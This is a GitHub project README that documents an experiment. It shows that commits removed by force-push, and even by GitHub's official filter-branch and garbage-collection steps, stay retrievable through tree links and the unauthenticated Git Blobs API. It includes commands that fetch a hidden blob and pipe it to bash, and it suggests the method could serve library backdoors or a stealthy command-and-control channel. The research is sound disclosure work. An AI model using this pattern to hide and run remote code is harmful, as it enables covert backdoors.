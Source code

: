 # boblobblob - Hiding git blobs in plain sight
This project demonstrates some experimentation with how Github handles git blobs, inspired by research done by [Kevin Hodges](https://github.com/khodges42/ghostfacekilla).

It will serve both as a repository that will document my experiments, and results of this research.

## Creating our intially hidden file
First, we will create a file we want to hide:

```bash
# cat hiddenfile.sh
echo "secret malicious code has been executed"
# git add hiddenfile.sh
```

Next, we'll grab the sha sum for this file, and note it:
```bash
# git hash-object hiddenfile.sh
44531211b7c63aab97c174d98d79e99b1086f145
```

Finally, we'll commit this file, and push it:

```bash
# git commit "added hidden file"
 git commit -m "added hidden file"
[master ce50e8a] added hidden file
 1 file changed, 1 insertion(+)
 create mode 100644 hiddenfile.sh
# git push
Counting objects: 4, done.
Delta compression using up to 12 threads.
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 326 bytes | 0 bytes/s, done.
Total 3 (delta 0), reused 0 (delta 0)
To git@github.com:Und3rf10w/boblobblob.git
   a27e6e3..ce50e8a  master -> master
```

At this point a tree for this push has been created and [can be found here](https://github.com/Und3rf10w/boblobblob/tree/ce50e8a618900b0c897c3d77d3b5872bb4361db8).

There are many instances where it may be benefical to revert a commit that has been accidently pushed to GitHub, such as accidently commiting secrets, justifying the need the ability to revert them. Let's revert the commit where we added `hiddenfile.sh` through the git command line, by going back to the commit to remove it, and force pushing it:

```bash
# git reset --hard a27e6e38d63dacf9bb828a01abbbb41dee0cdb76
HEAD is now at a27e6e3 Filled README.md
#  git push -f origin master
Total 0 (delta 0), reused 0 (delta 0)
To git@github.com:Und3rf10w/boblobblob.git
 + 7e66cf5...a27e6e3 master -> master (forced update)
```

## Accessing `hiddenfile.sh`

Now, if we look at the GitHub interface, aside from this document, there's no indication that our tree ever existed, however, [you can still browse to it](https://github.com/Und3rf10w/boblobblob/tree/ce50e8a618900b0c897c3d77d3b5872bb4361db8), as well as [access the file we attempted to redact](https://github.com/Und3rf10w/boblobblob/blob/ce50e8a618900b0c897c3d77d3b5872bb4361db8/hiddenfile.sh).

To anyone simply browsing this repository, assuming no links existing, there would never be any indication that `hiddenfile.sh` ever actually existed. But we can obviously still access it.

If we still have this blob located in our `.git` directory (which would only ever happen if you had a copy of the repository between the time that `hiddenfile.sh` was commited and redacted), then [as show in Kevin's project](https://github.com/khodges42/ghostfacekilla/blob/44a1f29de1f14d06d5876d10723d993ec6bd1fbb/src/sneaky_gfk.sh#L6), we can access this locally with `git cat-file` simply by knowing `hiddenfile.sh`'s sha sum:

```bash
# git cat-file -p 44531211b7c63aab97c174d98d79e99b1086f145
echo "secret malicious code has been executed"
# git cat-file -p 44531211b7c63aab97c174d98d79e99b1086f145 | bash
secret malicious code has been executed
```

However, what if we wanted to use to serve a file through `github.com` that would be difficult to discover through curosory investigation?

## Using the Git Blobs api
GitHub provides a [Git Blobs](https://developer.github.com/v3/git/blobs/) api that allows us to interact with git blobs with no authentication. The HTTP request for this uses the following format for `api.github.com`:

`GET /repos/:owner/:repo/git/blobs/:file_sha`

Let's try to grab the file through the api:

``` bash
# curl --silent -H "Content-Type: application/json" -H "Accept: application/vnd.github.v3.raw" https://api.github.com/repos/Und3rf10w/boblobblob/git/blobs/44531211b7c63aab97c174d98d79e99b1086f145
echo "secret malicious code has been executed"
# !! | bash
secret malicious code has been executed
```

This demonstrates one method to store and serve a file you wish to remain hidden through GitHub's handling of git blobs.

# Testing the offical way to redact commits
The method we used above is actually an [extremely popular answer on Stack Overflow](https://stackoverflow.com/a/1338744), but not the [offically documented method](https://help.github.com/articles/removing-sensitive-data-from-a-repository/) to remove sensitive data from a repository.

Let's create a new file, commit it and test to see if we can still do this after following the offical documentation.

```bash
# cat ohnoesnotmypassword
ayyyyyylmaowtfbbq
# git add ohnoesnotmypassword
# git commit -m "added my password"
[master e24a8e6] added my password
 1 file changed, 1 insertion(+)
 create mode 100644 ohnoesnotmypassword
 # git push
 Counting objects: 4, done.
Delta compression using up to 12 threads.
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 305 bytes | 0 bytes/s, done.
Total 3 (delta 0), reused 0 (delta 0)
To git@github.com:Und3rf10w/boblobblob.git
   09b64c0..e24a8e6  master -> master
```

This creates [a tree](https://github.com/Und3rf10w/boblobblob/tree/e24a8e6af0cad36c9d83b0d27f33159a217a927c). Before we delete it, we must make sure we grab the sha sum of our file `ohnoesnotmypassword` that we want to access.

```bash
# git hash-object ohnoesnotmypassword
8f42259c73edc4b9ad98089cc6b9639de6fcb9c4
```

Now, following the instructions provided by GitHub, if we want to revoke this commit, we must use `git filter-branch` to remove the file:

```bash
# git filter-branch --force --index-filter 'git rm --cached --ignore-unmatch ./ohnoesnotmypassword' --prune-empty --tag-name-filter cat -- --all
Rewrite e24a8e6af0cad36c9d83b0d27f33159a217a927c (5/5)rm 'ohnoesnotmypassword'

Ref 'refs/heads/master' was rewritten
Ref 'refs/remotes/origin/master' was rewritten
WARNING: Ref 'refs/remotes/origin/master' is unchanged
```

Finally, we mush force push this:

```bash
# git push origin --force --all
git push origin --force --all
Counting objects: 13, done.
Delta compression using up to 12 threads.
Compressing objects: 100% (6/6), done.
Writing objects: 100% (11/11), 1.00 KiB | 0 bytes/s, done.
Total 11 (delta 2), reused 2 (delta 0)
remote: Resolving deltas: 100% (2/2), completed with 1 local object.
To git@github.com:Und3rf10w/boblobblob.git
 + e24a8e6...8df8865 master -> master (forced update)
 ```
 
 We've followed the offically suggested way to remove this commit, and again, the GitHub interface shows no indication that this ever happened. Note that we intentionally haven't yet attempted to reflog the repository yet.
 
## Attempting to access `ohnoesnotmypassword` before reflog
First, we'll try to access it locally using `git`:

```bash
git cat-file -p 8f42259c73edc4b9ad98089cc6b9639de6fcb9c4
ayyyyyylmaowtfbbq
```

As before, this file is still stored within our local `.git` working directory. Next, let's attempt to access it through the GitHub api:

```bash
curl --silent -H "Content-Type: application/json" -H "Accept: application/vnd.github.v3.raw" https://api.github.com/repos/Und3rf10w/boblobblob/git/blobs/8f42259c73edc4b9ad98089cc6b9639de6fcb9c4
ayyyyyylmaowtfbbq
```

It looks like we can still access the file, and if we browse to [our tree](https://github.com/Und3rf10w/boblobblob/tree/e24a8e6af0cad36c9d83b0d27f33159a217a927c), we can still access this repository, including `ohnoesnotmypassword`.

### Trying the reflog
We purposly ommitted the last step that claims to `force all objects in your local repository to be dereferenced and garbage collected`, let's attempt this and see how it affects our tests.

```bash
# git for-each-ref --format='delete %(refname)' refs/original | git update-ref --stdin
# git reflog expire --expire=now --all
# git gc --prune=now
Counting objects: 12, done.
Delta compression using up to 12 threads.
Compressing objects: 100% (7/7), done.
Writing objects: 100% (12/12), done.
Total 12 (delta 2), reused 2 (delta 0)
```

Now let's try to access it locally:
```bash
git cat-file -p 8f42259c73edc4b9ad98089cc6b9639de6fcb9c4
fatal: Not a valid object name 8f42259c73edc4b9ad98089cc6b9639de6fcb9c4
```

As expected, the file is scrubbed from our local `.git` working directory. However, is it still stored online?

```bash
curl --silent -H "Content-Type: application/json" -H "Accept: application/vnd.github.v3.raw" https://api.github.com/repos/Und3rf10w/boblobblob/git/blobs/8f42259c73edc4b9ad98089cc6b9639de6fcb9c4
ayyyyyylmaowtfbbq
```

# Implications
The most commonly suggested way of redacting sensitive information isn't effective in ACTUALLY redacting information. While one could make the argument that an attacker would have to know the sha sum of the git blob they want to access, and thus already be aware of the contents of the file, a valid counter argument would be that as long as the attacker was aware of the sha sum for any tree containing the info that was pushed to `GitHub`, they'd still be able to retrieve it.

In addition, the implications of storing data on GitHub and being able to retrieve it with no authentication, and be difficult to discover are interesting as well. Perhaps this could be an interesting way to execute backdoor code for a malicious libary, or become a stealthy c2 channel.

## auto-boblobblob.sh
In order to automate testing off this, I've created a script `auto-boblobblob.sh` that automates the pushing and revoking of a file, and returns its commit hash and file hash. Usage is simple:

`USAGE: auto-boblobblob.sh "$/path/to/file/to/hide"`

Drop this script into the root of a repository you wish to hide a file in and give it a test.

